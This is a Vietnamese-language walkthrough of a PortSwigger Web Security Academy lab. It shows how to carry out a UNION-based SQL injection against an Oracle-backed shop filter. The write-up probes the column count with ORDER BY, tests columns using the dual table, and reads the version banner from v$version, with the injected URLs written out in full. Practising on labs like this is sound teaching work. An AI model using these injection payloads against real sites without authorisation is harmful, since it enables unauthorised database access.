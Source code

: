 # Lab: SQL injection attack, querying the database type and version on Oracle

### Link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
![Require of Lab](/Images/sql6.1.png)

Yêu cầu của bài lab là trả về chuỗi phiên bản của dtb

Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Food & Drink`, `Gifts` và `Lifestyle`, `Pets`....
![Website](/Images/sql6.2.png)

Tương tự như các bài lab trước, đầu tiên ta phải xác định số cột được trả về bằng cách thay đổi URL bằng cách thêm vào chuỗi `'+ORDER+BY+2--`

> https://ace21f501e8eeb14c0c0215000c500dc.web-security-academy.net/filter?category=Pets%27+ORDER+BY+2--

![Product of Pets order by 2](/Images/sql6.3.png)

Tiếp tục thay đổi URL bằng chuỗi `'+ORDER+BY+3--` và nhận được thông báo lỗi, từ đó xác định số cột được trả về là 2.
> https://ace21f501e8eeb14c0c0215000c500dc.web-security-academy.net/filter?category=Pets%27+ORDER+BY+3--

![Product of Pets order by 3](/Images/sql6.4.png)

Sau khi xác định được số cột trả về, ta kiểm tra xem 2 cột có chứa văn bản hay không
> https://ace21f501e8eeb14c0c0215000c500dc.web-security-academy.net/filter?category=Pets'+UNION+SELECT+%27123%27,%27oef%27+FROM+dual--

Trên cơ sở dữ liệu Oracle, mọi câu lệnh SELECT phải chỉ định một bảng để chọn FROM. Nếu sử dụng tấn công UNION SELECT không truy vấn từ một bảng dữ liệu, thì sẽ vẫn cần bao gồm từ khóa FROM theo sau là một tên bảng hợp lệ.

Có một bảng tích hợp trên Oracle được gọi là dual có thể sử dụng cho mục đích này. 

Ví dụ: UNION SELECT 'abc' FROM dual

![Check value in column](/Images/sql6.5.png)

Sau khi xác định, được các cột đều chứa văn bản, tiếp theo sẽ lấy chuỗi phiên bản của dtb như sau
> https://ace21f501e8eeb14c0c0215000c500dc.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![Result](/Images/sql6.7.png)


<div align="right"> <i> Ngày 21 tháng 01 năm 2021 </i> </div>
